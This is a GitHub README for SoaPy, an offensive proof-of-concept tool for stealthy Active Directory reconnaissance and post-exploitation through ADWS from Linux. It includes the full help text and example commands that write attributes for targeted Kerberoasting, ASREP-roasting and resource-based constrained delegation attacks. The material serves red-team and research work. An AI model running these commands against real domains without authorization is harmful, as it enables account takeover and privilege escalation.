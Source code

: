 # Description
SOAPy is a Proof of Concept (PoC) tool for conducting offensive  interaction with Active Directory Web Services (ADWS) from Linux hosts. SOAPy includes previously undeveloped custom python implementations of a collection of Microsoft protocols required for interaction with the ADWS service. This includes but is not limited to: NNS (.NET NegotiateStream Protocol), NMF (.NET Message Framing Protocol), and NBFSE (.NET Binary Format: SOAP Extension).

SOAPy can be primarily utilized to interact with ADWS for stealthy recon over a proxy into an internal Active Directory environment. Additionally SoaPy can perform targeted DACL-focused post-exploitation over ADWS, including `servicePrincipalName` writing for targeted Kerberoasting, `DON’T_REQ_PREAUTH` writing for targeted ASREP-Roasting, and the ability to write to `msDs-AllowedToActOnBehalfOfOtherIdentity` for Resource-Based Constrained Delegation attacks. 

The protocol structure for interacting with ADWS is shown below:
![image](https://github.com/user-attachments/assets/e83a3e60-7aaf-4084-bcab-41e400d4055e)

The blog detailing the original research largely from an engineering perspective can be found [here](https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws)

# Usage
```
███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝ 
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝  
███████║╚██████╔╝██║  ██║██║        ██║   
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝   

@_logangoins
github.com/jlevere  
          
usage: soapy [-h] [--debug] [--ts] [-H nthash] [--users] [--computers] [--groups] [--constrained]
             [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds] [-q query] [-f attr,attr,...]
             [-dn distinguishedname] [-p] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Perform AD reconnaisance and post-exploitation through ADWS from Linux

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  -H, --hash nthash     Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q, --query query     Raw query to execute on the target
  -f, --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list
  -dn, --distinguishedname distinguishedname
                        The root objects distinguishedName for the query
  -p, --parse           Parse attributes to human readable format

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used
                        for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "
                        --remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target
                        object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation
```

# Installation
With `pipx`:
```
pipx install .
```


With `poetry`:
```
poetry install
```

# Example Usage

Enumerate users using preset enumeration flags:
```
soapy <domain>/<user>:'<password>'@<ip> --users
```

Enumerate computers `samAccountName` and `objectSid` using a custom query/attribute filtering:
```
soapy <domain>/<user>:'<password>'@<ip> --query '(objectClass=computer)' --filter "samaccountname,objectsid"
```

Write `msDs-AllowedToActOnBehalfOfOtherIdentity` on DC01, enabling delegation from MS01 for an RBCD attack:
```
soapy <domain>/<user>:'<password>'@<ip> --rbcd 'MS01$' --account 'DC01$'
```

Write the `servicePrincipalName` attribute on jdoe as part of a targeted Kerberoasting attack:
```
soapy <domain>/<user>:'<password>'@<ip> --spn test/spn --account jdoe
```

Write `DONT_REQ_PREAUTH` (0x400000) on jdoe's `userAccountControl` attribute, making the account ASREP-Roastable:
```
soapy <domain>/<user>:'<password>'@<ip> --asrep --account jdoe
```
